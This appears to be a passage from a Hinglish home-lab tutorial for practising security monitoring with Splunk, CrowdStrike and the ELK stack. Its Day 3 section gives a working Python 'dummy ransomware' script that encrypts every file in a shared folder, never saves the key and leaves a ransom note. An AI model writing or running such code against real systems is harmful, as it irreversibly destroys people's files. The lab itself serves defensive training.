    - **Logstash**:
     ```
     sudo apt install -y logstash
     ```
   - Kibana web interface kholo: `http://192.168.1.30:5601` (browser mein).
   - Ensure kar ke Elasticsearch aur Kibana connect ho rahe hain.

**Notes for Tracker**:
- “Day 2: Splunk install kiya (web interface setup), CrowdStrike Falcon agent Victim machine par install kiya, ELK Stack (Elasticsearch, Kibana, Logstash) Monitoring machine par setup kiya.”

---

### Day 3: Simulate a Cyber Attack (June 17, 2025 | 2 Hours)

**Objective**: Attacker machine se ek simulated ransomware attack launch karo.

**Steps**:
1. **Create a Dummy Ransomware Script on Attacker Machine (1 Hour)**:
   - Kali Linux par ek simple Python script bana jo dummy ransomware ke roop mein kaam kare (files encrypt kare aur ransom note chhode):
     ```python
     import os
     from cryptography.fernet import Fernet

     # Generate a key for encryption
     key = Fernet.generate_key()
     cipher = Fernet(key)

     # Target directory on Victim machine (shared folder)
     target_dir = "/mnt/hgfs/shared_folder"  # Adjust path based on your shared folder setup
     ransom_note = "Your files are encrypted! Pay 1 BTC to decrypt. - Attacker"

     # Encrypt files
     for root, dirs, files in os.walk(target_dir):
         for file in files:
             file_path = os.path.join(root, file)
             with open(file_path, "rb") as f:
                 data = f.read()
             encrypted_data = cipher.encrypt(data)
             with open(file_path, "wb") as f:
                 f.write(encrypted_data)

     # Leave a ransom note
     with open(os.path.join(target_dir, "RANSOM_NOTE.txt"), "w") as f:
         f.write(ransom_note)
